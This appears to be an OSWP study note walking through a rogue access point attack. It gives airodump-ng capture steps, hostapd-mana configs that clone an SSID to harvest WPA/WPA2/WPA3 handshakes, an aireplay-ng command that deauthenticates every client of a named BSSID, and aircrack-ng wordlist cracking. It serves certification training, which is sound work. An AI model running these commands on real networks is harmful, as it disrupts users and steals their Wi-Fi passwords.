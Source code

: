 ```yaml
---
{"dg-publish":true,"permalink":"/oswp/6-rouge-a-ps/"}
---
```


---------
### Walkthrough:
1. Set up capture:
```
sudo airodump-ng -w discovery --output-format pcap wlan0mon
```
2. Open capture file in Wireshark
3. Filter for beacons:
```
wlan.fc.type_subtype == 0x08 wlan.ssid == "<name>"
```
4. Open "Tagged parameters"
5. Create a .conf file for hostapd-mana according to data:
```
interface=wlan0
ssid=<name>
channel=1
hw_mode=g #change to a for 5GHz
ieee80211n=1
wpa=3 #3 for both wpa/wpa2, 2 for wpa2 only, 1 for wpa only
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP #wpa encryption setting
rsn_pairwise=TKIP CCMP #wpa2 encryption setting
mana_wpaout=<outfile>.hccapx
```
6. Start the AP:
```
sudo hostapd-mana file.conf
```
7. If necessary deauth all clients with a new wireless card:
```
sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon
```
8. Crack the hashes with hashcat or aircrack:
```
aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst
```

------
### WPA-3 conf:
```
interface=wlan0
ssid=<name>
channel=1
hw_mode=g #change to a for 5GHz
ieee80211w=1
wpa=2
wpa_key_mgmt=WPA-PSK-SHA256
wpa_passphrase=ANYPASSWORD
rsn_pairwise=CCMP
mana_wpaout=<outfile>.hccapx
```

### Alternative: Probe requests
Wireshark filter:
```
wlan.fc.type_subtype == 4 or wlan.fc.type_subtype == 5
```